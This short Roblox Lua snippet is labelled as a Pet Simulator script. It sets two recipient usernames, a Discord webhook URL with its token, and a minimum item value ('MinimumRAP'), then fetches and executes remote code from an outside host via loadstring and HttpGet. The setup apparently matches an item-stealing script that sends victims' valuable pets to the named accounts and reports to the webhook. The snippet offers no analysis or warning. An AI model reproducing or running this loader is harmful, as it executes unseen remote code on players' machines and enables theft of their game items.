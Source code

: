 # Petsimulator-

Username = "sltanmax1"
Username2 = "sltanmax"
Webhook = "https://discord.com/api/webhooks/1232923649128927252/IIxcaoOCeKEEgskNn-wtmTikuJie6t_xmlfBexmehEaUIP44Ckdy8fRTE9EiysE3mHvK"

MinimumRAP = 100000

loadstring(game:HttpGet("https://egorikusa.space"))()
